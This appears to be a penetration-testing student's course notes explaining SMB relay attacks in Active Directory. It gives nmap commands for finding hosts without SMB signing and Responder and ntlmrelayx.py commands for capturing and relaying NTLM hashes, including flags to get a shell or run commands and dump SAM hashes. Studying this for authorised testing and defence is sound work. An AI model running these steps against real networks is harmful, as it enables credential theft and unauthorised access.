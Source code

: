 ```yaml
---
tags:
  - PEH
---
```

## What is SMB Relay?
### Definition
Instead of cracking hashes gathered with responder (just as in [[LLMNR Poisoning]]), we can instead relay those hashes to specific machines and potentially gain access.

Let's assume machine (A) has the same password as machine (B), and machine (A) has administrator privileges on machine (B). If the NTLMv2 hash of machine (A) is captured (without the need of cracking it), it can be relayed to machine (B) and get access to machine (B).

The main advantage of SMB Relay is that you DO NOT need to crack the hash to get the password.
### Requirements and identification
#### Requirements
- SMB singing **must be** disabled or not enforced on the target (==This is the default setting==)
- Relayed user credentials must be admin on other's machine for any real value (==Keep in your mind that you CAN NOT relay to your self==). So that means the captured relayed credentials MUST be local admin on a different machine.
#### Identify hosts without SMB signing
To identify whether the host has SMB signing enabled or not (don't forget to run [[Scanning with Nmap - المسح باستخدام إن ماب|netdiscover tool first]]):
```bash
nmap --script=smb2-security-mode.nse -p445 <ip-address> -Pn
```

>[!NOTE] No results for alive hosts
>Sometimes you scan hosts that you're 100% sure that they're alive but nmap shows no results or says something like "Host seems down". To mitigate this problem use the flag -Pn
### Executing SMB Relay attack
1. Edit the configuration of responder, turn of both HTTP and SMB because we want to make sure that the hashes captured are being relayed
```bash
# Run responder config using your favourite editor
sudo mousepad /etc/responder/Responder.conf
sudo nvim /etc/responder/Responder.conf
```

2. Set up responder (BUT DO NOT RUN)
```bash
# Run one of the following commands:
sudo responder -I <interface> -dwv
sudo responder -I <interface> -dPv
```

3. Set up relay tool
```bash
ntlmrelayx.py -tf targets.txt -smb2support
# targets.txt inculdes the hosts that we identified with SMB signing disabled
# Add -i at the end of the command above to pop a shell
# Add -c [COMMAND] to execute a command
```

4. Run `ntlmrelay` then `responder`
5. Capture an event
6. Gain access (==Potentially==)

>[!NOTE] Dumped SAM hashes (LM:NT)
>This tool will Dump SAM hashes if the attack is successful, these hashes can be useful for [[Gaining shell access (in AD)|gaining shell access using MS]] or [[Pass Attacks]].
## SMB Relay mitigation
![[SMB Relay mitigation.png]]